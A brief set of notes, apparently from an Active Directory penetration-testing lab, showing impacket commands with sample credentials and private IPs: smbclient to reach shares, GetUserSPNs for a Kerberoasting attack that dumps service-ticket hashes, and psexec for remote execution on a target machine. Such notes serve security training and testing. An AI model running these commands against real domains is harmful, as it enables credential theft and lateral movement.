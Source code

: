 example: impacket-smbclient aulas/postgrados:'mieia'@172.17.37.32 - This is to access the shared files at the AD

it can be used to get SPNs to do a kerberoasting attack
Kerberoast attack example:
impacket-GetUserSPNs -outputfile kerberoastables.txt -dc-ip 10.0.0.4 'contoso.com/diplomado:password'


impacket-psexec contoso/diplomado:password@10.0.0.21  
To access to target machine. It if had admin it can be interesting.

